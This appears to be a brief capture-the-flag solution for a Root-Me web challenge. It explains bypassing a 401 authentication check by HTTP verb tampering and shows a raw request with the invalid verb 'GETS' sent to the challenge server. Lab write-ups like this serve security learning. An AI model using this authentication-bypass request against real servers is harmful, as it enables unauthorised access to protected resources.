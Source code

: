 # Solution
Tamper with HTTP verb, to get other responses than 401
```http
GETS /web-serveur/ch8/ HTTP/1.1
Host: challenge01.root-me.org

```

